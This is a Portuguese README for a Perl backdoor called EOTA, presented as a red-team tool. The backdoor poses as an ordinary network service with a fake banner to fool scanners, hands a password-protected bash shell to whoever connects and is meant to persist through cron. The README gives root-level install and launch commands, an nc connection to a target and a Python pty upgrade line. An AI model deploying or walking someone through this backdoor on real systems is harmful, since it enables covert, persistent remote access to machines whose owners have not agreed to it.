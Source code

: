 # EOTA
Este script é uma backdoor ''' Perl ''' projetada para equipes vermelhas e que funciona como um serviço/porta qualquer que voce desejar.
A backdoor informar qualquer programa de mapeamento de rede que ele é um serviço determinado pelo orquestrador da ferramenta.
Por favor modifique o codigo fonte da ferramenta para personalização.

#### obs: Necessario modificação para implementar criptografia no trafego.

## VARIAVEIS 
* $service = Utilizada como banner para ser exibido aos scanners.

* $sec = Esta é uma senha para utilizar a backdoor, não queros xeretas xeretando, utilize o perl para gerar a senha:<br/>
perl -e 'print crypt ("PASSWORD","salto")'<br/>
Modifique o PASSWORD para a senha e o SALTO para o salto utilizado na senha.

* $acs = Modifique esta variavel para controle de shell , por default utilizamos o /bin/bash.

## DICA:
EOTA foi projetado para ser utilizado com um arquivo CRON, seu banner exibe as configuracoes necessarias para esta feature funcionar.

## EXECUTANDO
Para executar EOTA voce precisará de acesso root ao sistema, depois execute os seguintes comandos:

>$ git clone https://github.com/Outs1d3r-Net/PERL.git<br/>
>$ cd PERL
>$ chmod a+x EOTA.pl
>$ perl ./EOTA.pl 110 & 2>&1

## CONECTANDO
>$ nc IP_alvo 110
>PASSWORD
>id

## TTY
Se voce precisar de um TTY voce verificar com o python por exemplo para obter uma linha de comando mais interativa:<br/>
>which python<br/>
>/usr/bin/python2 -c 'import pty;pty.spawn("/bin/bash")'<br/>
